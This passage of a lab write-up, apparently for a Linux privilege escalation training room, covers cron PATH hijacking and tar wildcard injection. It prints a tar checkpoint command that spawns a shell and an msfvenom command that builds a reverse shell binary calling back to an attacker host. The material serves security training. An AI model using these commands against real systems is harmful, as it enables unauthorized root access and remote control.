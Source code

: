 ```bash
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

```
<img width="1875" height="220" alt="LPE5" src="https://github.com/user-attachments/assets/920f0508-f657-43f1-a3fc-817c87b628d6" />


i did to find full path of this file


now I need setup a reverse shell in that file 

Task 9 : Cron jobs -PATH Environment Variable

i first need to view to contents of crontab 
<img width="1896" height="616" alt="LPE6" src="https://github.com/user-attachments/assets/d95fc095-0286-4679-b9c2-4e8496625de5" />


 PATH variable starts with **/home/user** which is our user's home directory
let create file [overwrite.sh](http://overwrite.sh) in `/home/user` 

<img width="1916" height="894" alt="LPE7" src="https://github.com/user-attachments/assets/ad9b49ac-1596-42f0-858c-4d2c433eb6f2" />


because of low PATH Environment Variable we can easily execute command for user and get into root user

<img width="1557" height="237" alt="LPE8" src="https://github.com/user-attachments/assets/7b62e88a-7e0f-44a5-a860-5e3e7f24937f" />


What is the value of the PATH variable in /etc/crontab?

Answer:/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

Task 10:Cron Jobs - Wildcards

Let view other scripts there in it

`cat /usr/local/bin/compress.sh`

the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

command:
`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

<img width="1586" height="321" alt="LPE9" src="https://github.com/user-attachments/assets/611157dc-1f81-4699-b336-0d448c4f0e78" />
<img width="1897" height="190" alt="LPE10" src="https://github.com/user-attachments/assets/92cd93de-c0ad-43c3-8464-b62d5a15777e" />
